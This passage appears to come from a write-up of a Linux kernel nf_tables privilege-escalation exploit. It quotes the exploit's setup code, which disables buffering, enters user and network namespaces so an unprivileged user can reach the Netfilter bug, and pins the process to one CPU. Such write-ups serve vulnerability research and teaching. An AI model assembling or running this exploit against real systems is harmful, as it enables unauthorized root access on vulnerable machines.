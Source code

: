 
### 5.2 Disable buffering
- [exploit/extra-refined/exploit.c#L1230](../exploit/extra-refined/exploit.c#L1230)
```c
setvbuf(stdin, 0, 2, 0);
setvbuf(stdout, 0, 2, 0);
setvbuf(stderr, 0, 2, 0);
```  
Disable buffering for `stdin`, `stdout`, and `stderr` with `setvbuf` syscall.

### 5.3 Setup namespaces
- [exploit/extra-refined/exploit.c#L1234](../exploit/extra-refined/exploit.c#L1234)
```c
unshare_setup(getuid(), getgid());
```
- [exploit/extra-refined/exploit.c#L295](../exploit/extra-refined/exploit.c#L295)
```c
void unshare_setup(uid_t uid, gid_t gid)
{
    int temp;
    char edit[0x100];

    unshare(CLONE_NEWNS|CLONE_NEWUSER|CLONE_NEWNET);

    temp = open("/proc/self/setgroups", O_WRONLY);
    write(temp, "deny", strlen("deny"));
    close(temp);

    temp = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", uid);
    write(temp, edit, strlen(edit));
    close(temp);

    temp = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", gid);
    write(temp, edit, strlen(edit));
    close(temp);

    return;
}
```
We create and enter user/network namespace with `unshare` syscall. This is necessary to trigger the vulnerability of the Netfilter nf_tables system as an unprivileged user.

### 5.4 Pinning the CPU
- [exploit/extra-refined/exploit.c#L1235](../exploit/extra-refined/exploit.c#L1235)
```c
set_cpu_affinity(0, 0);
```
- [exploit/extra-refined/exploit.c#L319](../exploit/extra-refined/exploit.c#L319)
```c
void set_cpu_affinity(int cpu_n, pid_t pid) {
        cpu_set_t *set = malloc(sizeof(cpu_set_t));

        CPU_ZERO(set);
        CPU_SET(cpu_n, set);

        if (sched_setaffinity(pid, sizeof(set), set) < 0){
                perror("sched_setaffinity");
                return;
        }
        free(set);
}
```
